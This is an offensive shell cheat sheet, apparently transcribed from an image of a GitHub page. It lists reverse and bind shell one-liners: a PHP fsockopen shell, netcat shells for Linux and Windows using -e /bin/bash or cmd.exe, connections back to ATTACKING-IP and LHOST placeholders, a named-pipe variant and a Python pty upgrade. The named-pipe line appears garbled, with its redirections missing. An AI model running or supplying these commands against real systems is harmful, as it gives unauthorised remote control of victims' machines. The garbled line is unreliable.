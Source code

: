### Php

```text
php -r '$sock=fsockopen("<LHOST>",80);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Netcat

**Bind shell**

```text
#Linux
[on victim]
nc -nlvp 5555 -e /bin/bash

[From attacker]
nc 192.168.1.101 5555

# Windows
nc.exe -nlvp 4444 -e cmd.exe
```

**Reverse shell**

```text
# Linux
nc -lvp 5555
nc 192.168.1.101 5555 -e /bin/bash

# Windows
nc -lvp 443
nc.exe 192.168.1.101 443 -e cmd.exe
```

**With -e flag**

```text
nc -e /bin/sh ATTACKING-IP 80
```

```text
/bin/sh | nc ATTACKING-IP 80
```

**Without -e flag**

```text
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```

Upgrade Netcat shell to an interactive: [https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

## Cheatsheet commands:

**Using Python for a psuedo terminal**

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

